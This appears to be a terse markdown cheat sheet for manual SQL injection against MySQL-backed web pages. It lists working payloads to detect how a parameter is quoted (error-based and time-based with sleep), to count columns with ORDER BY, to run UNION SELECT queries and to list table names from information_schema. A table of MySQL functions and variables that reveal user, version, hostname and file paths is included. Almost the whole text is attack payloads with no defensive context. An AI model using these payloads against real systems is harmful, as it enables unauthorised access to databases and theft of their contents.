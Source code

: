 # Injection Flow

## get how SELECT param be enveloped
* Envelope method.
    1. int with several (): SELECT * FROM table_name WHERE id=1 // (1) // ((1))
    2. 'str' with several (): SELECT * FROM table_name WHERE username='R' // ('R') // (('R'))
    3. "str" with several (): SELECT * FROM table_name WHERE username="R" // ("R") // (("R"))
* To get how the param is enveloped.
    1. Error based : ?id=1\ --+
    2. Time based  : ?id=1 and if(1=1, !sleep(3), 0) --+

## make it work or wrong
* ?id=1 // work
* ?id=1\ // wrong

## get how many columns is SELECTed
1. ?id=1' order by 1 #                NO ERROR
1. ?id=1' order by 2 #                NO ERROR
1. ?id=1' order by 3 #                NO ERROR
1. ?id=1' order by 4 #                ERROR!!!

## union injection
* ?id=-1' union select 1,2,3 #
* ?id=-1' union select 'a','b','c' #

## 基于联合查询的SQL注入
Variable/function	Output
user()			Current User
database()		Current Database
schema()		Current Database
version()		Database Version
UUID()			System UUID Key
current_user()		Current User
system_user()		Current System User
session_user()		Session User
@@hostname		Current Hostname
@@tmpdir		Temporary Directory
@@datadir		Data Directory
@@version		Version of Database
@@basedir		Base Directory
@@GLOBAL.have_symlink	Check if symlink is Enabled or Disabled
@@GLOBAL.have_ssl	Check if it SSL is available

## get a certain table
?id=-1' union select 1,table_name,3 from information_schema.tables where table_schema=database() limit 2,1 --+
